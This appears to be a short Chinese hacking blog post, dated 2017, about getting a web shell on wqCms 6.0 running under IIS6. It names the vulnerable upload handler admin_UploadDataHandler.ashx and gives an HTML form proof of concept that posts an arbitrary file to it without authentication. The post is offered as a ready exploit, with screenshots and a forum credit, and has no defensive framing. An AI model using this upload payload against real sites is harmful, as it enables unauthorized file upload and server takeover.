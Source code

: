 title: wqCms6.0在IIS6的Getshell
date: 2017-02-22 21:20:55
update: ""
author: me
tags:
- Hacker
categories:
- Hacker
topic: ""
cover: ""
draft: false
preview: ""
top: false
type: ""
hide: false
config: null


---


2017-02-15发布
# 一、漏洞利用点
漏洞文件:admin_UploadDataHandler.ashx 自定义构造上传点
<!--more-->
# 二、hack it
![77e968abd5e5cb3e2c4cdfbe620568fa.jpg](https://ooo.0o0.ooo/2017/02/22/58ad9095a4fe5.jpg)
![7281e4d1334393ddcc1c4926ad0065a8.jpg](https://ooo.0o0.ooo/2017/02/22/58ad8ebcee2cf.jpg)
# 三、POC
```html
<html>
    <body>
        <form action="http://127.0.0.1/admin_UploadDataHandler.ashx" method="POST"enctype="multipart/form-data">
            <input  type="file" name="uploadify" />
            <input  type="text" name="saveFile" value="admin" />
            <input type="submit" name="Upload" value="Submit Query" />
        </form>
    </body>
</html>
```
转自群友论坛文章[wobushou](http://loner.fm/article.php?id=24236)
